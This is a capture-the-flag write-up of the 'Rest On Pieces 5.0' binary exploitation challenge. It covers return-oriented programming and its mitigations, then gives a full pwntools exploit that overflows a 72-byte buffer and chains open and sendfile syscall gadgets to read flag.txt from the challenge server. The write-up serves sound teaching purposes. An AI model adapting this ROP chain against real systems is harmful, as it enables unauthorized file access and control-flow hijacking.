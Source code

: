 # Rest On Pieces 5.0
Luigi Dell'Eva, 25/05/2024

## Background

The challenge is accessible through a shell using the command `nc cyberchallenge.disi.unitn.it 50260` and when executed the program waits for an input and then terminates. 

**Binary exploitation** is a specialized area within cybersecurity that focuses on identifying and **exploiting vulnerabilities in compiled applications**, such as Linux ELF files or Windows executables, to gain unauthorized access or modify the behavior of these programs. This process involves understanding and manipulating various aspects of the program's execution environment, including registers, the stack, calling conventions, buffers, and the heap. [1] To perform these analysis, we can use tools used in **reverse engineering** such as **Ghidra**, **GDB**, **ltrace**, **strace** and so on.

Binary exploitation presents different stack exploitation techniques, among them we can find **Return-oriented programming** (ROP) which is a technique that allows an attacker to execute code on a target system despite the presence of security defenses such as executable space protection (No eXecute) and code signing. It works by leveraging the call stack to **hijack program control flow** and execute **selected sequences of machine instructions**, known as **"gadgets"**. This gadgets are short instruction sequences which ends with a return instruction and are already present in the binary, typically in the code section or in shared libraries (i.e. libc). [2] [3]

To prevent from this kind of attacks, there are some mitigation that can be applied such as **Stack canaries** and **ASLR** which makes the exploitation of the vulnerability more difficult. Other than that, there are also some specific techniques which can be applied at **compiler** and **binary** level, for example telling the compiler to not use `ret` instruction or patching the binary to add instructions which clears the parameters registers before the `ret` instruction. Other techniquest can consist **detecting** the behaviour of the program by monitoring its execution. [4] [5] [6]

## Vulnerability

To be able to exploit the **ROP vulnerability**, we need to be able to **overflow** the program stack to reach its **return address** (which is the case of this challenge). By reacing the return address, we can overwrite it with the addresses of the gadgets we want to use to execute our code. This vulnerabilty can provide **turing complete** capabilities to the attacker, which means that the attacker can execute any code he wants. [2]

## Solution

By analyzing the ELF file with `pwn checksec` we can see that the program has **NX** enabled but do not have Stack canaries and PIE enabled. This means that we can reach the return address simply by overflowing the buffer and the addresses of the binary are fixed. To overflow the program we need an offset of 72 bytes, which can be found by using `gdb` and `pattern_create` and `pattern_offset`.

First, I checked into the binary with `Ghidra` and I found that in the program string there is a string `flag.txt` which is the file to read, at address `0x404020`. After this i looked into the available gadgets by using `ropper --file <filename>` and I found the following gadgets:

- `mov rax, 2; syscall;` which allows to perform a syscall to `open()` a file
- `mov rax, 0x28; syscall; nop; pop rbp; ret;` which allows to perform a syscall to the function `sendfile()`
- to use the above functions we need also the gadgets `pop r10; ret;`, `pop rdi; ret;`, `pop rdx; ret;` and `pop rsi; ret;`

Note that the gadget for the `sendfile` has a `pop rbp` instruction which is not useful for us, but we can simply ignore it by pushing into the stack a `0` value.

Through the use of the `open` syscall, we can open the file seen before and then read its content with the `sendfile` which allows to copy data between two file descriptors. The code to do this is the following:

```python
from pwn import *

p = remote("cyberchallenge.disi.unitn.it", 50260)

filename = b'flag.txt\x00'

pop_r10 = p64(0x000000000040119c) #pop r10; ret; 
pop_rdi = p64(0x0000000000401196) #pop rdi; ret; 
pop_rdx = p64(0x000000000040119a) #pop rdx; ret; 
pop_rsi = p64(0x0000000000401198) #pop rsi; ret;

flag_txt = 0x400000 + 0x00004020 # "flag.txt" location

syscall_open = p64(0x000000000040119f) # mov rax, 2; syscall;
syscall_sendfile = p64(0x00000000004011a9) # mov rax, 0x28; syscall; nop; pop rbp; ret;

offset = 72
payload = b'A' * offset

# open file
payload += pop_rdi
payload += p64(flag_txt)
payload += pop_rsi
payload += p64(0)
payload += pop_rdx
payload += p64(0)
payload += syscall_open

# sendfile
payload += pop_rdi
payload += p64(1) # stdout
payload += pop_rsi
payload += p64(6) # file descriptor
payload += pop_rdx
payload += p64(0)
payload += pop_r10
payload += p64(100)
payload += syscall_sendfile
payload += p64(0)

p.sendline(payload)
p.sendline(filename)
print(p.recvall(timeout=1).decode(errors="ignore").split("\n")[0])
```

## References

[1] Binary exploitation: [https://medium.com/@0day_exploit/unveiling-the-power-of-binary-exploitation-mastering-stack-based-overflow-techniques-d263c8a07f67](https://medium.com/@0day_exploit/unveiling-the-power-of-binary-exploitation-mastering-stack-based-overflow-techniques-d263c8a07f67)

[2] ROP: [https://en.wikipedia.org/wiki/Return-oriented_programming](https://en.wikipedia.org/wiki/Return-oriented_programming)

[3] ROP: [https://ctf101.org/binary-exploitation/return-oriented-programming/](https://ctf101.org/binary-exploitation/return-oriented-programming/)

[4] Course slide

[5] ROP Mitigations: [https://ar5iv.labs.arxiv.org/html/1008.4099](https://ar5iv.labs.arxiv.org/html/1008.4099)

[6] ROP Mitigations: [https://www.sciencedirect.com/science/article/abs/pii/S0167642322000016](https://www.sciencedirect.com/science/article/abs/pii/S0167642322000016)

[7] Sendfile man page: [https://manpages.debian.org/unstable/manpages-dev/sendfile.2.en.html](https://manpages.debian.org/unstable/manpages-dev/sendfile.2.en.html)